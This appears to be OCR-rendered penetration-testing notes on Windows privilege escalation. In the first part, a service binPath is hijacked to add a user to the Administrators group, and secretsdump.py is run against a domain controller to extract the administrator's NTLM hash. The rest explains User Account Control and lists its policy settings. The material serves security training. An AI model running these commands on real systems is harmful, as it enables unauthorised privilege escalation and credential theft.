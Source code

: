 ```
Membership of this group confers the powerful SeBackupPrivilege and SeRestorePrivilege privileges and the ability to `control local services`.

#### Querying the AppReadiness Service

        C:\> sc qc AppReadiness

#### Checking Service Permissions with PsService

We can use the service viewer/controller PsService, which is part of the Sysinternals suite

`C:\> c:\Tools\PsService.exe security AppReadiness`
        


#### Modifying the Service Binary Path

`C:\> sc config AppReadiness binPath= "cmd /c net localgroup Administrators server_adm /add"`

#### Starting the Service

`C:\> sc start AppReadiness`

#### Retrieving NTLM Password Hashes from the Domain Controller

`$ secretsdump.py server_adm@10.129.43.9 -just-dc-user administrator`





# OS specific attacks

        


                --User Account Control


        User Account Control (UAC) is a feature that enables a consent prompt for elevated activities. Applications have different integrity levels, and a program with a high level can perform tasks that could potentially compromise the system. When UAC is enabled, applications and tasks always run under the security context of a non-administrator account unless an administrator explicitly authorizes these applications/tasks to have administrator-level access to the system to run. It is a convenience feature that protects administrators from unintended changes but is not considered a security boundary.


        When UAC is in place, a user can log into their system with their standard user account. When processes are launched using a standard user token, they can perform tasks using the rights granted to a standard user. Some applications require additional permissions to run, and UAC can provide additional access rights to the token for them to run correctly.



            
User Account Control: Admin Approval Mode for the built-in Administrator account 	FilterAdministratorToken 	Disabled

User Account Control: Allow UIAccess applications to prompt for elevation without using the secure desktop 	EnableUIADesktopToggle 	Disabled

```